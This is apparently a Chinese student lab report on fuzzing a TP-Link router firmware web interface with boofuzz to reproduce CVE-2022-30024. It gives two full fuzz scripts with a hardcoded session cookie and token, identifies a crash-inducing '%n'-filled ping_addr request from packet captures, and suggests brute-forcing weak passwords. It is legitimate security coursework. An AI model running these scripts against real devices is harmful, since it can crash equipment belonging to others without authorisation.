

# 第六章：物联⽹固件动态分析

---

## 实验环境

- 操作系统: Kali Linux
- 虚拟机软件: VirtualBox7.1.6

---

## 实验步骤

### 实验⼀：使⽤ boofuzz 尝试发现 CVE-2022-30024 漏洞

由于这里的漏洞利用和之前第八次实验的漏洞一样，所以可以根据以往的经验进行漏洞攻击，再加上是使用模糊测试，故将之前的攻击payload请求包重写为fuzz脚本即可。

#### 回顾漏洞：

CVE-2022-30024 这个漏洞是源于栈缓冲区溢出，当在网页端进行 ping 命令的时候，如果输入的内容超过声明的长度0x34(52) 字节，便会导致缓冲区溢出，进而导致网页崩溃。

对其攻击过程进行抓包，效果如下：
捕获正常的ping功能请求包，一切正常


但是当修改ping的地址参数为52长度以上的字符时，就会导致服务器异常，网页崩溃：


#### 实验内容：

##### 完成针对 CVE-2022-30024 漏洞进⾏模糊测试的 boofuzz 脚本

所以根据以上的内容，可以编写一个boofuzz脚本进行模糊测试，对 PingIframeRpm.htm 接口做手动与自动字段模糊测试

半自动测试手动指定字段：
```py
import socket, time, signal, sys
from boofuzz import *
from boofuzz.connections import TCPSocketConnection


IP, PORT = "192.168.131.6", 32769
TOKEN    = "JQRATBAAKBPWUMEB"
COOKIE   = ("Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0"
            "YTBlNGE4MDFmYzM%3D")   
BASE     = f"/{TOKEN}/userRpm/PingIframeRpm.htm"


IDLE = 0.8        
PREVIEW = 200  


class SyncVerboseConn(TCPSocketConnection):
    def __init__(self, *a, **kw):
        super().__init__(*a, **kw)
        self.idle = IDLE

    def open(self):
        super().open()
        sock = getattr(self, "_socket", None) or getattr(self, "_sock", None)
        if sock:
            sock.settimeout(self.idle)

    def send(self, data, *args, **kwargs):
        super().send(data, *args, **kwargs)

        sock = getattr(self, "_socket", None) or getattr(self, "_sock", None)
        chunks, last = [], time.time()
        while True:
            try:
                buf = sock.recv(4096)
                if buf:
                    chunks.append(buf)
                    last = time.time()
                else:
                    break
            except socket.timeout:
                if time.time() - last >= self.idle:
                    break

        resp = b"".join(chunks)
        if resp:
            preview = resp[:PREVIEW] + (b"..." if len(resp) > PREVIEW else b"")
            print(f"[RX] {preview!r}")

        return len(data)   


def build_template():
    s_initialize("PING")

    if s_block_start("req"):
        s_static("GET /")
        s_static(TOKEN)
        s_static("/userRpm/PingIframeRpm.htm?")
        s_static("ping_addr=")
        s_string("1.1.1.1", name="ping_addr", max_len=1024)   #修改这里的两行的内容更改测试字段
        s_static("&doType=ping&isNew=new&sendNum=4&pSize=64&overTime=800&trHops=20")
        s_static(" HTTP/1.1\r\n")


        s_static(f"Host: {IP}:{PORT}\r\n")
        s_static("Upgrade-Insecure-Requests: 1\r\n")
        s_static("User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) "
                 "AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36\r\n")
        s_static("Accept: text/html,application/xhtml+xml,application/xml;q=0.9,"
                 "image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\n")
        s_static("Accept-Encoding: gzip, deflate\r\n")
        s_static("Accept-Language: zh-CN,zh;q=0.9\r\n")
        s_static("Referer: "
                 f"http://{IP}:{PORT}/{TOKEN}/userRpm/DiagnosticRpm.htm\r\n")
        s_static(f"Cookie: {COOKIE}\r\n")
        s_static("Connection: close\r\n\r\n")
    s_block_end()


def main():
    conn = SyncVerboseConn(IP, PORT)
    for attr in ("close_after_each_request", "close_after_fuzz"):
        if hasattr(conn, attr):
            setattr(conn, attr, False)

    sess = Session(target=Target(connection=conn))
    sess.sleep_time   = 0.01
    sess.receive_data = False
    sess.logger       = FuzzLoggerText()

    build_template()
    sess.connect(s_get("PING"))
    print("[*] 同步 fuzz 开始 —— 每条响应都会打印预览")
    sess.fuzz()


def abort(sig, frm):
    print("\n[+] 中断退出")
    sys.exit(0)

if __name__ == "__main__":
    signal.signal(signal.SIGINT, abort)
    main()
```
全自动多字段测试：
```py
import socket, time, signal, sys
from boofuzz import *
from boofuzz.connections import TCPSocketConnection

IP, PORT = "192.168.131.6", 32769
TOKEN    = "JQRATBAAKBPWUMEB"
COOKIE   = ("Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0"
            "YTBlNGE4MDFmYzM%3D")
BASE     = f"/{TOKEN}/userRpm/PingIframeRpm.htm"

IDLE = 0.8
PREVIEW = 200

class SyncVerboseConn(TCPSocketConnection):
    def __init__(self, *a, **kw):
        super().__init__(*a, **kw)
        self.idle = IDLE

    def open(self):
        super().open()
        sock = getattr(self, "_socket", None) or getattr(self, "_sock", None)
        if sock:
            sock.settimeout(self.idle)

    def send(self, data, *args, **kwargs):
        super().send(data, *args, **kwargs)

        sock = getattr(self, "_socket", None) or getattr(self, "_sock", None)
        chunks, last = [], time.time()
        while True:
            try:
                buf = sock.recv(4096)
                if buf:
                    chunks.append(buf); last = time.time()
                else:
                    break
            except socket.timeout:
                if time.time() - last >= self.idle:
                    break

        resp = b"".join(chunks)
        if resp:
            preview = resp[:PREVIEW] + (b"..." if len(resp) > PREVIEW else b"")
            print(f"[RX] {preview!r}")

        return len(data)              

def build_template():
    s_initialize("PING")

    if s_block_start("req"):
        s_static("GET /"); s_static(TOKEN)
        s_static("/userRpm/PingIframeRpm.htm?ping_addr=")
        s_string("1.1.1.1", name="ping_addr",  fuzzable=True, max_len=1024)

        s_static("&doType=")
        s_string("ping",    name="doType",     fuzzable=True, max_len=16)

        s_static("&isNew=")
        s_string("new",     name="isNew",      fuzzable=True, max_len=8)

        s_static("&sendNum=")
        s_string("4",       name="sendNum",    fuzzable=True, max_len=8)

        s_static("&pSize=")
        s_string("64",      name="pSize",      fuzzable=True, max_len=8)

        s_static("&overTime=")
        s_string("800",     name="overTime",   fuzzable=True, max_len=8)

        s_static("&trHops=")
        s_string("20",      name="trHops",     fuzzable=True, max_len=8)

        s_static(" HTTP/1.1\r\n")

        # —— 头部 ——（完全复刻）
        s_static(f"Host: {IP}:{PORT}\r\n")
        s_static("Upgrade-Insecure-Requests: 1\r\n")
        s_static("User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) "
                 "AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36\r\n")
        s_static("Accept: text/html,application/xhtml+xml,application/xml;q=0.9,"
                 "image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\n")
        s_static("Accept-Encoding: gzip, deflate\r\n")
        s_static("Accept-Language: zh-CN,zh;q=0.9\r\n")
        s_static(f"Referer: http://{IP}:{PORT}/{TOKEN}/userRpm/DiagnosticRpm.htm\r\n")
        s_static(f"Cookie: {COOKIE}\r\n")
        s_static("Connection: close\r\n\r\n")
    s_block_end()

def main():
    conn = SyncVerboseConn(IP, PORT)
    for attr in ("close_after_each_request", "close_after_fuzz"):
        if hasattr(conn, attr):
            setattr(conn, attr, False)

    sess = Session(target=Target(connection=conn))
    sess.sleep_time   = 0.01
    sess.receive_data = False
    sess.logger       = FuzzLoggerText()

    build_template()
    sess.connect(s_get("PING"))
    print("[*] 同步 fuzz 开始 —— 7 字段全部变异，打印每条响应")
    sess.fuzz()

def abort(sig, frm):
    print("\n[+] 中断退出"); sys.exit(0)

if __name__ == "__main__":
    signal.signal(signal.SIGINT, abort)
    main()
```

每次使用这两个脚本进行模糊测试的时候，只需要修改容器环境映射的端口号和每一次登录时产生的认证token即可

##### 运⾏该 boofuzz 脚本，并尝试发现 CVE-2022-30024 漏洞：

为了对之后的测试进行分析，这里需要提前开始进行抓包：

```sh
sudo tcpdump -i eth1  -w pingiframe_eth1.pcap
```

对指定的网卡进行流量抓包后运行脚本，效果如下：


和之前的实验一样，也可以在网页中监控：


当脚本执行的差不多的时候，查看网页情况，发现网页已经无法正常访问：


此时停止抓包，开始准备分析模糊测试：


##### 捕获模糊测试过程中的所有完整通信流量，分析并从其中找出是哪⼀条数据报⽂导致了⽬标固件崩溃？并给出推断的理由。

通过右面的缩略栏可以看出从某一个地方开始，发出的请求便基本上没有了回应，可以猜测是网页服务崩溃了，于是可以直接滑到其交界处，找到可以正常接受响应的的最后一个请求包，并查看其内容：



通过发送的payload内容可以看出，是对ping_addr传了很多个"%n"字符，这里结合之前的漏洞利用经验，很合理。

为了进一步验证是这个请求导致的崩溃，找到这个请求的响应包：


发现其内容和我们之前做chap0x08的时候使用burpsuit发送含有payload的请求包后得到的响应内容一致

在这条报文之后，所有的其他请求都没有了http响应


种种条件全部吻合，所以可以判定是这条数据报文导致了固件的崩溃

#### （扩展）思考

1. 如果你在不知道漏洞存在于哪个固件的哪个接⼜的情况下，你应该如何挖掘未知漏洞？你的思路是什么？

- 先找入口：

  * 扫端口，看有哪些服务开着（80、8080、UPnP…）。
  * 用浏览器+抓包把所有网页、按钮、Ajax 地址都点一遍，记录完整 URL 和参数名。
- 尝试进入内容：

  * 抓一次正常登录，把 Cookie 或 token 保存下来，后面重复用。
  * 口令弱就先跑字典暴力。
- 逐个测试：

  * 对每个参数先单独 fuzz（给非常长、奇怪、空的值）。
  * 观察路由器有无崩溃、重启或报错页。
  * 再把能触发反应的参数两两组合去 fuzz，缩小范围。
- 写脚本自动化实现

  * 发包→等响应→下一包，并在崩溃后自动重启设备或重新登录。
  * 一旦发现哪条请求让设备挂了，就算找到可疑漏洞点。

2. 你认为在你刚刚的思路中，难点或者挑战是什么？

- 没有 Cookie ，可能缺少必要的认证参数。
- 参数多，全部排列组合会炸。
- 完全黑盒效率低。

3. 你认为这些难点或者挑战可能可以如何解决？

- 先手动登录，把 Cookie 写死进脚本；过期就重新抓，通过抓包详细分析认证手段。
- 单参数→再两参组合；只 fuzz 可疑长度或字符串参数，别把所有小字段都列完。
- 看“返回内容/长度”有没有变化；比响应时间、包大小，大致判断代码跑不同分支。

---

## 遇到的问题及解决方案

- 在编写脚本的时候，需要严格按照抓到的请求数据包的格式去写，否则可能会导致格式或内容不匹配，进而认证失败，无权访问。
- boofuzz的测试速度可以很快，有的时候会抓不到响应的包，所以在我的代码里指定了每一次的发包都是在得到响应包后才进行，方便后面对抓取的响应包进行分析。

---

## 参考链接：

[TP-Link TL-WR841N设备中的1day到0day漏洞-安全KER - 安全资讯平台](https://www.anquanke.com/post/id/282931)
